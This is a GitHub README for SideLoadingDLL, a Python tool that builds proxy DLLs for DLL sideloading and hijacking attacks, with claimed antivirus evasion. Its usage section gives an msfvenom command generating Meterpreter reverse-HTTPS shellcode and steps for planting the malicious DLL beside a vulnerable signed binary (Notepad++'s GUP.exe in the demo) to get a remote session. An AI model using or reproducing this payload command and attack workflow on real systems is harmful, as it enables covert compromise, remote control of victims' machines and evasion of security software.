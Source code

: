# SideLoadingDLL

Python script to generate "proxy" DLL files load unsafely by binaries on runtime, makes it super easy to perform a DLL Sideloading attack or hijacking.
This implementation makes sure that all system calls still go through ntdll.dll to avoid the usage of direct systemcalls.

See the below articles for more details
https://flangvik.com/privesc/windows/bypass/2019/06/25/Sideload-like-your-an-APT.html
https://flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html

demo's is using GUP.exe signed from NotePad++, loading a malicious ncrypt sideloading malware:

Sideloading ncrypt.dll( meterpreter session)
![Meterpreter sideload](https://github.com/MaorSabag/SideLoadingDLL/blob/main/demo/screen-capture.gif)

## Dependencies
- x64 Native Tools Command Prompt for VS
- Python3

## Usage
- Find a binary that is vulnerable to SideLoading/DLL Hijacking
- Create a shellcode (msfvenom -p windows/x64/meterpreter_reverse_https LHOST=eth0 LPORT=443 -f raw -o shellcode.bin)
- Run the make.py file with the arguments needed
- Copy the files from the Output directory to the vulnerable program and make sure the injected process is open
- Run the program and get a session back!!

## Demo
- You can find the full demo in this [link](https://drive.google.com/file/d/1CR4uV-GGxm8kNZYWHtpSrjMGEgoj1Zr4/view).

## Credits 
- [Sektor7's RTO Malware Essential Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [thefLink](https://github.com/thefLink)'s [RecycledGate](https://github.com/thefLink/RecycledGate)
